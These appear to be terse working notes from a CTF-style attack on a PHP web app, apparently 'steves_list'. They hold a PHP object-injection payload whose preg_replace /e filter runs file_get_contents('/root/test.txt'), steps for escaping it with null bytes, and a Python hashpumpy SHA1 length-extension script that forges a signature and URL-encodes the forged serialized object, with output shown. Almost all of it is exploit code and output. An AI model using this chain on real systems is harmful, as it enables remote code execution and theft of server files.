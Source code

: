       string(4) "<br>"
    }
  }
}

******

php -S 127.0.0.1:8888 -t test_php/

php -S 127.0.0.1:8888 -t steves_list_backup/


*****



######

<?php  
  require_once("classes.php");

  $myfilter = new Filter("/a/e", "file_get_contents('/root/test.txt')");
  $mypost = new Post("title", "a", array($myfilter));
  echo $mypost->display_post();
?>

string(195) "O:4:"Post":3:{s:8:"*title";s:5:"title";s:7:"*text";s:1:"a";s:10:"*filters";a:1:{i:0;O:6:"Filter":2:{s:10:"*pattern";s:4:"/a/e";s:7:"*repl";s:35:"file_get_contents('/root/test.txt')";}}}" 

Escape the double quotes + add /x00 on either side of the 5 asterisks:

O:4:\"Post\":3:{s:8:\"\x00*\x00title\";s:5:\"title\";s:7:\"\x00*\x00text\";s:1:\"a\";s:10:\"\x00*\x00filters\";a:1:{i:0;O:6:\"Filter\":2:{s:10:\"\x00*\x00pattern\";s:4:\"/a/e\";s:7:\"\x00*\x00repl\";s:35:\"file_get_contents('/root/test.txt')\";}}}

Verify that this works when unserializing locally.

######

import hashpumpy
import urllib

# Post object without filter (prints "" at the bottom)
sig = "2141b332222df459fd212440824a35e63d37ef69"
data = "b:1;"
kl = 8
add = "\n" + "O:4:\"Post\":3:{s:8:\"\x00*\x00title\";s:5:\"title\";s:7:\"\x00*\x00text\";s:1:\"a\";s:10:\"\x00*\x00filters\";a:0:{}}"
h = hashpumpy.hashpump(sig, data, add, kl)
h[0]
urllib.quote_plus(h[1])

'ccab5775f7dbbac3aff0808f1e678a149a08e70b'
'b%3A1%3B%80%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%60%0AO%3A4%3A%22Post%22%3A3%3A%7Bs%3A8%3A%22%00%2A%00title%22%3Bs%3A5%3A%22title%22%3Bs%3A7%3A%22%00%2A%00text%22%3Bs%3A1%3A%22a%22%3Bs%3A10%3A%22%00%2A%00filters%22%3Ba%3A0%3A%7B%7D%7D'
